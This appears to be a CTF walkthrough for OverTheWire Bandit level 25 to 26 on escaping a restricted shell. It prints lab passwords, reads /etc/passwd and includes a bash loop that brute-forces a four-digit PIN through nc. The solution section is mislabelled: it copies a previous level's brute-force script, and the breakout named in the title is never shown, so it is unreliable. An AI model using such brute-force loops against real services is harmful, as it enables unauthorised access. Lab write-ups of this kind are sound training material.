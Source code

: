 # [Level 25 to 26](https://overthewire.org/wargames/bandit/bandit26.html) - Breaking out of a restricted environment with more and vim

- Login
```
SSH: ssh bandit25@bandit.labs.overthewire.org -p 2220
Password: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
- Exercise: Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it. NOTE: if you’re a Windows user and typically use Powershell to ssh into bandit: Powershell is known to cause issues with the intended solution to this level. You should use command prompt instead.
- Background:
  - Each user has a user default shell -> Can be found a the `/etc/passwd` file
- Solution:
  - Check what shell bandit26 uses
```bash
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ ls -la /usr/bin/showtext
-rwxr-xr-x 1 root root 58 Sep 19 07:08 /usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
```
  - Use private key
```bash
bandit24@bandit:~$ mktemp -d
/tmp/tmp.GnsTBgHerI
bandit24@bandit:~$ cd /tmp/tmp.GnsTBgHerI
bandit24@bandit:/tmp/tmp.GnsTBgHerI$ nano brute_force_pin.sh
bandit24@bandit:/tmp/tmp.GnsTBgHerI$ cat brute_force_pin.sh
#!/bin/bash

for i in {0000..9999}
do
        echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> possibilities.txt
done

cat possibilities.txt | nc localhost 30002 > result.txt
bandit24@bandit:/tmp/tmp.GnsTBgHerI$ chmod +x brute_force_pin.sh
bandit24@bandit:/tmp/tmp.GnsTBgHerI$ ./brute_force_pin.sh 
bandit24@bandit:/tmp/tmp.GnsTBgHerI$ ls
brute_force_pin.sh  possibilities.txt  result.txt
bandit24@bandit:/tmp/tmp.GnsTBgHerI$ sort result.txt | grep -v "Wrong!"

Correct!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
- Password: `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`
